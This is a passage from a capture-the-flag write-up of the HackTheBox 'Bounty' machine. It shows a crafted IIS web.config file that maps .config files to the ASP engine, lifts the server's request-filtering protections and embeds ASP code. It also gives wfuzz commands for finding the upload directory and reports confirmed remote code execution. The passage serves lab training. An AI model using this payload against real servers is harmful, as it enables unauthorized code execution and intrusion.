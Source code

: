 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<%
Response.write(1+2)
%>
-->
```

![web_config_3](GitHubv2/HackTheBox/EASY/Bounty/screenshots/web_config_3.png)

Upload it:

![web_transfer_webconfig](GitHubv2/HackTheBox/EASY/Bounty/screenshots/web_transfer_webconfig.png)
![web_transfer_webconfig_true](GitHubv2/HackTheBox/EASY/Bounty/screenshots/web_transfer_webconfig_true.png)

### 3.2 Finding Upload Location

We fuzz upload paths with a custom dictionary:

```bash
cat /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt | grep -i upload > dictionary
wfuzz -c --hc=404 -t 200 -w dictionary http://10.10.10.93/FUZZ
```

![wfuzz_uploadedfiles](GitHubv2/HackTheBox/EASY/Bounty/screenshots/wfuzz_uploadedfiles.png)

The directory is `/uploadedFiles/`.

![web_uploadedfiles](GitHubv2/HackTheBox/EASY/Bounty/screenshots/web_uploadedfiles.png)

Accessing `uploadedFiles/web.config` shows output, confirming **RCE**:
